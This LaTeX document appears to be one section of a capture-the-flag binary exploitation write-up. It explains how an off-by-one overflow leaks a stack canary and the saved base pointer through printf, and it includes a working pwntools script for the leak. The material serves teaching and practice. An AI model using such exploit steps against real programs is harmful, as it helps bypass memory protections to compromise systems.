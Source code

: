 \documentclass{report}
\begin{document}
    \subsubsection{Leak canary and Base Pointer}
    The first step I did in the exploit is find the stack canary and save the base pointer because would be very useful later.
    The first overflow is perfect for our work, in fact if we look in the decompiled code we can see how the name input produces a bug, an off by one and allows us to overwrite the first byte of the canary stack, a feature of the canary stack is that the first three nibbles and therefore the first and a half bytes are always zero.\newline
    In fact the printf always prints up to the string terminator or null byte, this is the reason why the stack canary being after the name buffer will not be printed because the first byte is always a null byte.\newline
    But what happens if we overwrite the first byte of the canary with off by one?  
    \newpage
    exploit code to leak the canary:
    \begin{verbatim} 
    io.sendafter(b">", b"A"*56) # sending after char ">" 56*A 
    io.recvuntil(b'Hello '+ b'A'*56) #recive the output until HelloAAAA....A
    canary=io.recv(8) # save the canary  
    svb=io.recvuntil(b'Nice' , drop=True) 
    canary=b"\x00"+canary[1:8] # fixing the byte we overwrite to leak the canary
    real_canary=u64(canary[0:8]) #conver the canary to unsigned 64 bit 
    real_svb=u64(svb.ljust(8,b'\x00')) #convert the save base poiter to unsigned 64 bit
    log.info(f"leaked canary: {hex(real_canary)}") #stampo il canary
    log.info(f"leaked save base pointer: {hex(real_svb)}") #stampo il svp
    \end{verbatim}
    sendafter recvuntil are all pwntools functions that allow in the case of sendafter to send input bytes (in this case fifty-six A),
    recvuntil instead allows you to receive the program output.\newline
    \begin{figure}[h]
        \centering
        \texttt{[image: leaked\_canary\_terminator.png]}
        \caption{Enter Caption}
        \label{fig:leaked the canary in this function}
    \end{figure}
    
\end{document}
